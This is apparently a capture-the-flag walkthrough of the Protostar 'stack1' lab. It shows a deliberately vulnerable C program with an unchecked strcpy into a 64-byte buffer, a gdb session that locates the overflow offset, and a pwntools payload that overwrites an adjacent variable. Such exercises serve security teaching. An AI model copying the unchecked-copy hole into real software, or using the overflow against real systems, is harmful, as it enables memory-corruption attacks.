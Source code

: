 source code:

```C
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  if(argc == 1) {
      errx(1, "please specify an argument\n");
  }

  modified = 0;
  strcpy(buffer, argv[1]);

  if(modified == 0x61626364) {
      printf("you have correctly got the variable to the right value\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }
}
```

In this one, you have to set the variable `modified` to a specific value `0x61626364`. 

Check the assembly code, find that `modified` is at `esp+0x5c`. 

```
(gdb) r Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
Starting program: /home/user/stack1 Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

Breakpoint 1, 0x080484ab in main (argc=1094214465, argv=0x64413963) at stack1/stack1.c:18
18	stack1/stack1.c: No such file or directory.
	in stack1/stack1.c

(gdb) x $esp+0x5c
0xbffff5ec:	0x63413163
```

Using pattern generator (https://wiremask.eu/tools/buffer-overflow-pattern-generator/), length = 200, regisiter value = `0x63413163`, offset is calculated: `64`.

Now, the payload can be 

```python
>>> from pwn import *
>>> p32(0x61626364)
b'dcba'
>>> b'A'*64 + b'dcba'
b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAdcba'
```

```shell
user@protostar:~$ ./stack1 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAdcba
you have correctly got the variable to the right value
```